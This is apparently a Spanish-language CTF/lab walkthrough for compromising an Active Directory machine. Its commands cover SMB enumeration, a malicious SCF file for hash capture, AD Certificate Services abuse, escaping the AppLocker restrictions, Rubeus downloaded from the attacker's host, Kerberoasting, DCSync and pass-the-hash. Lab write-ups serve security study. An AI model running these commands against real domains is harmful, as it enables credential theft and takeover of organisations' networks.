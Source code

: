 ## Tenicas utilizadas 
- MBCacls Enumeration Malicious SCF File (Getting NetNTLMv2 Hash) 
- Ldap Enumeration (LdapDomainDump) 
- Abusing Microsoft Active Directory Certificate Services Creating Certificate Signing Requests (CSR) [Openssl] 
- CLM / AppLocker Break Out (Escaping ConstrainedLanguage) PSByPassCLM Usage (CLM / AppLocker Break out) Msbuild (CLM / AppLocker Break Out) 
- Kerberoasting Attack (Rubeus) Kerberoasting Attack (Chisel Port Forward - GetUserSPNs.py) 
- WINRM Connections 
- BloodHound Enumeration 
- DCSync Attack (secretsdump.py)
- DCSync Attack (Mimikatz) 
- zPassTheHash (wmiexec.py)
## Procedimiento
- Probar enumerar los recursos compartidos a nivel de red de smb
- Crear una montura del recurso compartido encontrado ``mount -t cifis "/$ip/$ruta" $mntPath``
- Utilizar ``tree -fas`` para enumerar los directorios
- Crear un diccionario potencial de usuarios
- Realizar un ASREProast Attack(**Imposible por que el puerto 88 esta cerrado**)
- Listar los directorios en los que tenemos privilegios de escritura ``smbcacls "//$ip/$recurso" Users/$usuario ``
- Scripting en bash <-
```bash
for directory in $(ls); do

	echo -e "\n[+] Enumerando permiso del directorio $directory:\n"
	echo -e "\t$(smbcacls "//$ip/$ruta" Users/$directory -N | grep "Everyone")"
	 
done
```
- Crear un recurso compartido a nivel de red e inyectar un archivo SCF en el directorio en el que tenemos permisos para intentar que el usuario se atentifique conmigo.
- Cracker el hash
- Intentar un Kerberoasting attack para conseguir un **Ticket Garanting Service**
- No podemos solicitar el TGS porque Kerberos no esta expuesto
- Dumpear la informacion del dominio con **ldapomainDump**
- Fuzzer la pagina web
- Crear claves ``openssl req -newkey rsa:2048 -nodes -keyout $name.key -out $name.csr``, brindar el certificado al ADCS(*Active Directory Certificate Services*)
- Conectarse al winrm: ``evil-winrm -S -c $certificado -k $key -i $ip -u $user -p $password``
- Tirar de bloodhound-python para recolectar informacion del dominio
	- **ALTERNATIVA BLOODHOUND**: SharpHoud, desde adentro de la maquina.
	- Bypassear el CLM(**Constrinet Leanguage Mode**) con **PsByPassCLM.exe** 
	![[Pasted image 20221031192155.png]]
	- Transferir el sharphound de la maquina victima a la maquina atacante. Antes de transferirlo, el recurso creado con impacket debe contar con una contraseña y con un usuario, también nos debemos loggear en la maquina victima; ``net use x: \\$ip\$recursoCompartido /user:$usuario $password`` y posteriormente ``copy $SharpHound.zip x:\$archivo.zip``

- Tirar del repositorio  *ghost-compiled-binaries*, y descargar la utilidad de rubeus.exe, posteriormente lo transferimos a la maquina victima con ``iwr -uri $ip/$recurso -OutFile Rubeus.exe``
- Efectuar el kerberoasting attack con el Rubeus.exe y crackeamos el hash
- Terminamos con un PassTheHash, con wmiexec.py ``$dominio/$user@$ip -hashes :$hash``